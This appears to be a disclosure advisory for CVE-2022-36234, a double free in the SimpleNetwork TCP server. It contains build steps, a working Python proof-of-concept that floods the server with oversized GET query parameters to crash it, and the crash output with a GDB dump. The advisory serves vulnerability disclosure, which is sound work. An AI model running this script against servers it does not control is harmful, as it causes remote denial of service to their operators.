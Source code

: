 # Overview

SimpleNetwork TCP Server commit 29bc615f0d9910eb2f59aa8dff1f54f0e3af4496 was discovered to contain a double free vulnerability which is exploited via crafted TCP packets. Triggering the double free will allow client to crash any SimpleNetwork TCP server remotely. In other situations, double free vulnerabilities can cause undefined behavior and potentially code execution in the right circumstances.

# Reproduction

To ensure you have the standard build tools required to compile the library, install the following packages (ost systems this will already be installed):

``
sudo apt-get install build-essential
``

The vulnerability can be reproduced by sending consecutive requrests to the server containing a large buffer of characters in an HTTP GET query parameter.  First, compile the 'libSimpleNetwork' library and example server provided in the source code:

```
git clone https://github.com/kashimAstro/SimpleNetwork.git
cd SimpleNetwork/src
make
cd ../example-server
make
```

### Start the example-server:

```
./server 80 1
```

### Save the following python3 proof of concept script to a file (modify the url as needed):
```
import requests

buf = payload="A"*10000
payload = {'timestamp': buf}

for i in range(50):
    try:
        r = requests.get('http://localhost/', params=payload)
        
    except:
        print("Retrying...")
    

print("Complete...")
```

### Execute the python3 script:

```
python3 poc.py
```

### Crash verification:
If successful, the server will crash and you will see the following output from the application:
```
segmentation fault  ./server 80 1
```

### GDB backtrace:
```
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
────────────────────────────────────────────────────────────────────────────────────────────────[ REGISTERS ]────────────────────────────────────────────────────────────────────────────────────────────────
 RAX  0x21
 RBX  0x7fffec000e60 ◂— '2023-1-31 11:50:57\r\n'
 RCX  0x0
 RDX  0x555555580ed0 —▸ 0x5555555811b0 ◂— 0x555555581
 RDI  0x55555556e3d0 (TCPServer::newsockfd) —▸ 0x555555580ed0 —▸ 0x5555555811b0 ◂— 0x555555581
 RSI  0xffffffffffffffff
 R8   0x0
 R9   0x640
 R10  0xa3d70a3d70a3d70b
 R11  0x293
 R12  0x14
 R13  0x0
 R14  0x7ffff7a1dc90 —▸ 0x7ffff7a1dcb0 —▸ 0x7ffff7a1dcf0 —▸ 0x7ffff7a1dd30 —▸ 0x7fffe8001bf0 ◂— ...
 R15  0x7ffff621c000 ◂— 0x0
 RBP  0x7ffff6a1bc30 —▸ 0x7ffff6a1bed0 ◂— 0x0
 RSP  0x7ffff6a1bc00 ◂— 0x14
 RIP  0x55555555909e ◂— mov    eax, dword ptr [rax]
─────────────────────────────────────────────────────────────────────────────────────────────────[ DISASM ]──────────────────────────────────────────────────────────────────────────────────────────────────
 ► 0x55555555909e    mov    eax, dword ptr [rax]
   0x5555555590a0    mov    ecx, 0
   0x5555555590a5    mov    rdx, r12
   0x5555555590a8    mov    rsi, rbx
   0x5555555590ab    mov    edi, eax
   0x5555555590ad    call   send@plt                <send@plt>
 
   0x5555555590b2    nop    
   0x5555555590b3    add    rsp, 0x20
   0x5555555590b7    pop    rbx
   0x5555555590b8    pop    r12
   0x5555555590ba    pop    rbp

```


# References

* https://owasp.org/www-community/vulnerabilities/Doubly_freeing_memory
* https://cwe.mitre.org/data/definitions/415.html
* https://github.com/kashimAstro/SimpleNetwork/issues/22
* https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-36234
